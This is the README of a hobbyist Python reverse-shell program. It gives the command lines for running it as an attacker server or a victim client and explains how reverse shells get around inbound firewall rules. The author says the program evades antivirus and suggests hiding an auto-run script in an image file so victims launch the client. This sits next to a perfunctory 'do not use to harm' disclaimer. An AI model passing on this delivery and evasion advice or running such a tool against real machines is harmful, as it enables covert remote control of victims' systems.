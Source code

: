 

# Sample Demo:
![Alt Text](https://github.com/heecheon92/Reverse_shell/blob/master/rshell_demo.png)

# How to Use?

You can run this program either as a server (attacker) or client (victim)

## To run as a server:
```
  python3 rshell.py -m server -p port_number
```
## To run as a client:
```
  python3 rshell.py -m client -t server_ip_address -p server_port_number
```
# Well, so how does it work?

Server program opens up an accessible port.

Once the server program is running, client program can be executed to connect to the port hosted by the server.

Unlike normal shells or also known as "bind shell", in which an innocent server simply allow an user to connect and the malicous user client can send payloads to attack the server node, in reverse shell, the server program acts as a malicous endpoint and allows the server to execute shell commands to a client.

In most network environment, it is a common practice that in-bound policy is set to be strict to prevent malicous actions to be done and typically, out-bound policy is set to be loose so that users within the network can freely traverse the endpoints outside of the firewall.

Due to this environment, exploitation by bind shell is not really easily acheiveable.

However, since the attcker is the server so that the in-bound policy can be set relatively loosely or set with no in-bound policy at all so that client can easily access to the server, implementing reverse shell is very effective to control a remote node.

All communication between the server and the client is not secure and can be easily detected by network monitoring tools like Wireshark. I am planning to add a security layer.



Bind Shell:

Server (Victim) ---------|Firewall|<<---------Client (Attacker)

It is easy to fail to make connection if an out-bound policy of firewall is well set.

Reverse Shell:

Server (Attacker) -------NO-FIREWALL <<------------Client (Victim)

Attacker set no in-bound policy so that victims can freely connect to the trap server.

So, a reverse shell is just a shell that exploits common firewall's nature.

Again, even though this is a very simple program, it won't be detected by an anti-virus software as a threat.

So, DO NOT USE TO HARM OTHER ENDPOINTS.

### But even if I run the program as a server......, why would anybody run this program as a client?
### Well, that is your portion. You may set up a script to automatically run this program and embed the script
### to a image file or something. That is purely up to you.


# A Very Long Disclaimer: 

I am not responsible for any real / potential damage by the use of this project

I am not a professional penetration tester.

However, I do find network/socket programming very attractive and based on what I learned from

network class in college and socket programming I picked up from somewhere, I have made this little sneaky programs.

Just because I like to understand about penetration testing, it does not mean I would like to relentlessly abuse well known tools or frameworks (such as metasploit....veil....sqlmap.....hashcat.....etc). Instead, I wanted to try making my own script and see what I can do. I am not saying those penetration tools are bad. In fact, I get amazed how well they are automated to attack mutliple victim nodes. I just do not want to solely rely on them.




